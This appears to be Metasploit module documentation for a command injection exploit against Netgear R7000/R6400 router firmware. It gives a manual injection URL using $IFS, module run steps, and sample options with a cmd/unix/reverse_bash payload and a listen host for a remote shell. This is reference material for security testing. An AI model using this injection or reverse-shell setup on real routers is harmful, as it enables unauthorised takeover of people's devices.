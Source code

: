 The netgear_r7000_cgibin_exec module exploits a command injection vulnerability in Netgear R7000 and R6400 router firmware version `1.0.7.2_1.1.93` and possibly earlier. The vulnerability is found in the `/cgi-bin/` folder of the router. A manual injection would look like so: `http://<RouterIP>/cgi-bin/;echo$IFS"cowsay"`. This will echo 'cowsay' on the router. 


## Vulnerable Application

Netgear R7000 and R6400 routers running firmware version `1.0.7.2_1.1.93` and possibly earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/http/netgear_r7000_cgibin_exec`
  3. Do: `set RHOST <RouterIP>`
  4. Do: `set PAYLOAD <payload>`
  5. Do: `run`
  6. If the router is a R7000 or R6400, the module should run

## Options

  **PAYLOAD**
  
  The valid payloads are `cmd/unix` payloads _only_, as this is a command execution module

## Scenarios

  Sample output of the options looks like so 

  ```
  msf exploit(netgear_r7000_cgibin_exec) > options

Module options (exploit/linux/http/netgear_r7000_cgibin_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.1.1      yes       The target address
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.153.34   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf exploit(netgear_r7000_cgibin_exec) > 
  ```
  
  
